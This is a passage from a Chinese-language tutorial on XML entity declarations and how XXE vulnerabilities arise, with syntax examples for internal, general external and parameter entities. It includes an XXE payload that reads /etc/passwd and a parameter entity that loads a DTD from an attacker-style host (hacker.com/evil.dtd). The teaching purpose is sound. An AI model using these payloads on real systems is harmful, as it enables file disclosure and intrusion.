 * **内部实体声明**

内部声明采用如下格式定义：

```xml
  <!ENTITY 实体名 "实体值">
```

声明之后就可以通过"\&实体名;"来获取，示例如下：

```xml
  <!DOCTYPE foo [
    <!ENTITY test "john">
  ]>
  <root>
    <name>&test;</name>
  </root
```

* **外部实体引用**

XXE 的产生正是外部实体引用的结果，可分为普通实体和参数实体。

**（1）普通实体**声明格式如下：

```java
<!ENTITY 实体名 SYSTEM "URI">
或者
<!ENTITY 实体名 PUBLIC "public_ID" "URI">
```

举个例子：

```java
<!DOCTYPE foo [<!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

声明实体 xxe，用于读取 /etc/passwd 文件，然后通过 \&xxe; 来引用执行。

**（2）参数实体**声明主要用于后续使用，与普通实体不同的是，它中间有百分号字符（%），其声明格式如下：

```java
<!ENTITY % 实体名称 "实体的值">
或者
<!ENTITY % 实体名称 SYSTEM "URI">
```

举个例子：

```xml
<!DOCTYPE foo [
  	<!ENTITY  % xxe SYSTEM "http://hacker.com/evil.dtd" >
  	%xxe;
]>
<root>
  	<name>&evil;</name>
</root>
```
